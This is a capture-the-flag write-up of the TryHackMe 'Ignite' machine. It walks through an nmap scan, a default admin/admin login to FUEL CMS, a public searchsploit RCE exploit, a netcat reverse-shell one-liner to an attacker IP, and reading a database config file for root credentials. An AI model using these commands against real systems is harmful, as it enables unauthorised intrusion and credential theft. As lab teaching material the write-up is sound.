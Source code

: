 ```yaml
---
title: "Ignite - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Ignite
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - thm
  - tryhackme
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Ignite
![](https://kar0nx.github.io/assets/images/writeup/676cb3273c613c9ba00688162efc0979.png)
Tags: #Easy #Linux
## Reconnaissance

IP: 10.10.132.103
### NMAP

```
nmap -T4 -A -p- 10.10.164.172
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-10 12:38 EDT
Nmap scan report for 10.10.132.103
Host is up (0.044s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/10%OT=80%CT=1%CU=40022%PV=Y%DS=2%DC=T%G=Y%TM=681F
OS:812D%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=A)
OS:OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508
OS:ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
OS:ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   43.99 ms 10.8.0.1
2   44.31 ms 10.10.132.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.26 seconds

```

Only port 80 is open with FUEL CMS
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250510184222.png)

As we can read on site /fuel is admin panel. Luckily it worked with default credentials:
admin/admin

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250510184546.png)

Tried to upload via assets but nothing was working for me.
## Gaining Access

Searching for exploits. We know version of Fuel CMS 1.4

```
searchsploit fuel cms
searchsploit -m php/webapps/50477.py
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250510191921.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250510192022.png)

after using the first exploit (I'm starting with the newest) we connected. Now let's upgrade to reverse shell. Start listener on kali and type revshell in command line

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.70.152 1337 >/tmp/f
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250510192253.png)

We have it.
### Spawning a TTY Shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Privilege Escalation

After a while of searching for credentials, I found something good in:

```
cat /var/www/html/fuel/application/config/database.php
```

And now we have root credentials. So switch user to root and vio la

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250510193152.png)

We have root access. 
Now we can grab flags:

```
cat /home/www-data/user.txt
cat /root/root.txt
```